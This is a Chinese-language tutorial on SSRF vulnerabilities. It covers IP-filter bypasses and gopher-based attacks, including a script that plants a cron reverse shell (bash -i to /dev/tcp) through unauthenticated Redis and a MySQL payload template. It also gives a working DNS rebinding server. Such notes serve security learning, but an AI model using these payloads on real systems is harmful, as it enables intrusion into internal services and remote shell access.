







# [](#ssrf-%E6%BC%8F%E6%B4%9E%E7%9B%B8%E5%85%B3)SSRF 漏洞相关

## [](#1-%E5%AE%9A%E4%B9%89%E4%B8%8E%E5%8E%9F%E7%90%86)1 定义与原理

### [](#11-%E5%AE%9A%E4%B9%89)1.1 定义

SSRF(Server-Side Request Forgery)，服务器请求伪造，是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下， SSRF 攻击的目标是从外网无法访问的内部系统。

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定 URL 地址获取网页文本内容，加载指定地址的图片，下载等等。



### [](#12-%E7%89%B9%E7%82%B9)1.2 特点

攻击者无法直接访问目标机器 2 的服务

目标机器 1 能够访问目标机器 2 的服务

目标机器 1 暴露了访问目标机器 2 的方式，攻击者能够利用



### [](#13-%E6%A3%80%E6%B5%8B%E6%96%B9%E6%B3%95)1.3 检测方法

1.  因为 SSRF 漏洞是让服务器发送请求的安全漏洞，所以可以通过抓包分析发送的请求是否是由服务器的发送的，从而来判断是否存在 SSRF 漏洞
2.  在页面源码中查找访问的资源地址 ，如果该资源地址类型为 `www.baidu.com/xxx.php?image=`（地址）的就可能存在 SSRF 漏洞

### [](#14-php-%E4%B8%AD%E7%9A%84%E7%9B%B8%E5%85%B3%E5%87%BD%E6%95%B0)1.4 PHP 中的相关函数

-   file\_get\_contents()
-   fsockopen()
-   curl\_exec()

### [](#14-%E5%8D%B1%E5%AE%B3)1.4 危害

-   可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
-   攻击运行在内网或本地的应用程序(比如溢出)
-   对内网 Web 应用进行指纹识别，通过访问默认文件实现
-   攻击内外网的 Web 应用，主要是使用 get 参数就可以实现的攻击(比如 Struts2 漏洞利用，SQL 注入等)
-   利用 File 协议读取本地文件

## [](#2-%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95)2 绕过方法

### [](#21-ip-%E7%BB%95%E8%BF%87)2.1 IP 绕过

-   加端口
-   短网址，但是默认情况下 CURL 命令不开启 follow 302 跳转
-   指向任意 IP 的域名 xip.io，`127.0.0.1.xip.io`
-   IP 限制绕过
    -   127.0.0.1
    -   0177.0.0.1 八进制
    -   0x7f.0.0.1 十六进制
    -   十六进制去掉分隔符 `http://0x7F000001`
    -   十进制去掉分隔符 `http://2130706433`

### [](#22-%E5%85%B6%E5%AE%83-tips)2.2 其它 Tips

-   结合 dict:// file:// gopher://
-   `http://www.baidu.com@192.168.0.1`
    -   以 `www.baidu.com` 用户名，检测是否有权限访问 192.168.0.1 的网站
-   短连接（301 跳转，需要能访问到外网）

### [](#23-gopher-%E5%8D%8F%E8%AE%AE)2.3 Gopher 协议

gopher 是一个互联网上使用的分布型的文件搜集获取网络协议

gopher 协议支持发出 GET、POST 请求：可以先截获 get 请求包和 post 请求包，再构造成符合 gopher 协议的请求。 gopher 协议是 ssrf 利用中一个最强大的协议(俗称万能协议)。

#### [](#231-gopher-%E6%8E%A7%E5%88%B6-redis-%E5%8F%8D%E5%BC%B9-shell)2.3.1 Gopher 控制 Redis 反弹 shell

前提

redis 未授权

redis 对 cron 有写权限



**通过 socat 抓流量**

脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/ip/port 0 >&1\n\n"\|redis-cli -h $1 -p $2 -x set 1<br>redis-cli -h $1 -p $2 config set dir /var/spool/cron<br>redis-cli -h $1 -p $2 config set dbfilename root<br>redis-cli -h $1 -p $2 quit<br>``` |

执行：./shell.sh 127.0.0.1 4444

**流量转发**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>socat -v tcp-listen:4444,fork tcp-connect:IP:6379<br>``` |



流量转换

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>``` | ```python<br># coding: utf-8<br>import sys<br><br>exp = ''<br><br>with open(sys.argv[1]) as f:<br>    for line in f.readlines():<br>        if line[0] in '><+':<br>            continue<br>        # 判断倒数第 2、3 字符串是否为 \r<br>        elif line[-3:-1] == r'\r':<br>            # 如果该行只有 \r，将 \r 替换成 %0a%0d%0a<br>            if len(line) == 3:<br>                exp = exp + '%0a%0d%0a'<br>            else:<br>                line = line.replace(r'\r', '%0d%0a')<br>                # 去掉最后的换行符<br>                line = line.replace('\n', '')<br>                exp = exp + line<br>        # 判断是否是空行，空行替换为 %0a<br>        elif line == '\x0a':<br>            exp = exp + '%0a'<br>        else:<br>            line = line.replace('\n', '')<br>            exp = exp + line<br>print exp<br>``` |

#### [](#232-gopher-%E5%AF%B9-mysql-%E7%9A%84%E5%88%A9%E7%94%A8)2.3.2 Gopher 对 Mysql 的利用

前提：

-   存在 SSRF 漏洞
-   MySQL 无密码

Gopher 协议转化

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>gopher://127.0.0.1:3306/_<br>+ url 编码的登录请求<br>+ 包长度(wireshark 抓包时可以直接看到 Packet Length)<br>+ %00%00%00%03<br>+ 查询语句(URL 编码)<br>+ %01%00%00%00%01<br>``` |

#### [](#233-%E7%9B%B8%E5%85%B3%E5%B7%A5%E5%85%B7)2.3.3 相关工具

[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)





### [](#24-dns-%E9%87%8D%E7%BB%91%E5%AE%9A%E6%94%BB%E5%87%BB)2.4 DNS 重绑定攻击

#### [](#241-%E5%8E%9F%E7%90%86)2.4.1 原理

一般 web 应用程序防御 SSRF 的流程如下：



1.  获取到输入的 URL，从该 URL 中提取 host
2.  对该 host 进行 DNS 解析，获取到解析的 IP
3.  检测该 IP 是否是合法的，比如是否是私有 IP 等
4.  如果 IP 检测为合法的，则进入 curl 的阶段发包

观察到，在这个流程中，一共进行了两次 DNS 解析：第一次是对 URL 的 host 进行 DNS 解析，第二次是使用 curl 发包的时候进行解析。这两次 DNS 解析是有时间差的，我们可以使用这个时间差进行绕过。

时间差对应的 DNS 中的机制是 `TTL`。TTL 表示 DNS 里面域名和 IP 绑定关系的 Cache 在 DNS 上存活的最长时间。即请求了域名与 IP 的关系后，请求方会缓存这个关系，缓存保持的时间就是 TTL。而缓存失效后就会删除，这时候如果重新访问域名指定的 IP 的话会重新建立匹配关系及 cache。

在上面的流程中，如果在 DNS 第二次解析的时候，我们能够更换 URL 对应的 IP，那么在 TTL 之后、缓存失效之后，重新访问此 URL 的话，就能获取被更换后的 IP。如果我们把第一次解析的 IP 设为合法 IP，就能绕过 host 合法性检查；把第二次解析的 IP 设为内网 IP，就达到了 SSRF 访问内网的目的。

总结

DNS 重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的 ip 达到突破同源策略或过 waf 进行 ssrf 的目的。

#### [](#242-%E5%AE%9E%E7%8E%B0)2.4.2 实现

**一些 DNS Rebinding 平台**

-   [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
-   [https://requestrepo.com/](https://requestrepo.com/)

**手动实现**

需要先添加一条 NS 记录和一条 A 记录：

| 记录类型 | 主机记录 | 记录值 |
| --- | --- | --- |
| NS  | test | ns.geekby.xyz |
| A   | ns  | 39.96.14.41 |

NS 记录表示域名 `test.geekby.xyz` 这个子域名指定由 `ns.geekby.xyz` 这个域名服务器来解析，然后 A 记录表示这个 `ns.geekby.xyz` 的位置在 IP 地址 `39.96.14.41` 上。

这里搭建 DNS 服务器采用 python 的 twisted 库中的 name 模块，代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>``` | ```python<br>from twisted.internet import reactor, defer<br>from twisted.names import client, dns, error, server<br><br>record={}<br><br>class DynamicResolver(object):<br><br>    def _doDynamicResponse(self, query):<br>        name = query.name.name<br><br>        if name not in record or record[name] < 1:<br>            ip = "127.0.0.1"<br>        else:<br>            ip = "1.2.3.4"<br><br>        if name not in record:<br>            record[name]=0<br>        record[name]+=1<br><br>        print name+" ===> "+ip<br><br>        answer = dns.RRHeader(<br>            name=name,<br>            type=dns.A,<br>            cls=dns.IN,<br>            ttl=0,<br>            payload=dns.Record_A(address=b'%s'%ip,ttl=0)<br>        )<br>        answers = [answer]<br>        authority = []<br>        additional = []<br>        return answers, authority, additional<br><br>    def query(self, query, timeout=None):<br>        return defer.succeed(self._doDynamicResponse(query))<br><br>def main():<br>    factory = server.DNSServerFactory(<br>        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]<br>    )<br><br>    protocol = dns.DNSDatagramProtocol(controller=factory)<br>    reactor.listenUDP(53, protocol)<br>    reactor.run()<br><br><br><br>if __name__ == '__main__':<br>    raise SystemExit(main())<br>``` |

#### [](#243-%E9%98%B2%E5%BE%A1%E6%96%B9%E6%B3%95)2.4.3 防御方法

通过控制两次的 DNS 查询请求的间隔低于 TTL 值，确保两次查询的结果一致。

Java 应用的默认 TTL 为 10s，这个默认配置会导致 DNS Rebinding 绕过失败。
